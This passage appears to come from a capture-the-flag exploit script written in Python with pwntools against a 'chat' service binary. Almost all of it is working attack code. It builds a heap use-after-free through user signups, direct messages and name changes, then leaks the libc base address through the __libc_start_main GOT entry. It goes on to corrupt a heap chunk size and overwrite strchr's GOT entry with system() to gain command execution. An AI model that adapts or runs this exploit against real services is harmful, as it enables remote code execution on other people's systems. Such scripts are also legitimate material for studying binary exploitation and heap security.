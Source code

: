 ```python exp_chat.py
    r.sendlineafter(">> ", "7")
    r.sendlineafter(">> ", name)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    signup("A"*4) # fastbin[0] * 2
    signup("B"*4) # fastbin[0] * 2
    signup("C"*30) # fastbin[0] * 1 + fastbin[1] * 1 

    signin("A"*4)
    tweet("aaaa") 
    signout()

    signin("B"*4)
    tweet("bbbb")
    dm("A"*4, "BA") # for creating dangling pointer
    dm("C"*30, "BC")
    signout()

    signin("C"*30)
    tweet("cccc")
    signout()

    signin("B"*4)
    change_name("\t") # invalid, will remove user (user AAAA's DM become dangling pointer)
    signin("C"*30)
    change_name("\t") 

    signup("d"*7)
    signin("d"*7)
    for i in xrange(6,2,-1): # null out the address
        change_name("d"*i)

    malusr = p64(elf.got['__libc_start_main'])
    change_name(malusr) # AAAA's DM's sender->name will pointer to __libc_start_main@got.plt
    signout()

    # leak libc
    signin("A"*4)
    r.sendlineafter(">> ", "2") # show DM, leak libc
    r.recvuntil("[")
    libc.address += u64(r.recv(6).ljust(8,"\x00")) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']

    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    signout()

    # somehow we can overwrite an unsortbin chunk's size
    # enlarge the size, so we can overflow the heap buffer and fake some data structure
    signin(malusr)
    change_name("i"*24+p8(0xa1))
    tweet("fuck") # will allocate chunk from smallbin
    change_name(p8(0x40)) # make this user into right index
    tweet("7"*16+p64(0x60302a)) # allocate chunk from unsortbin, overwrite data structure. We can now start overwriting memory from 0x60302a

    # start overwriting, we wish to overwrite strchr's got
    change_name("A"*6+"B"*8+p64(system_addr)) # padding + padding + strchr's got (overwrite to system)
```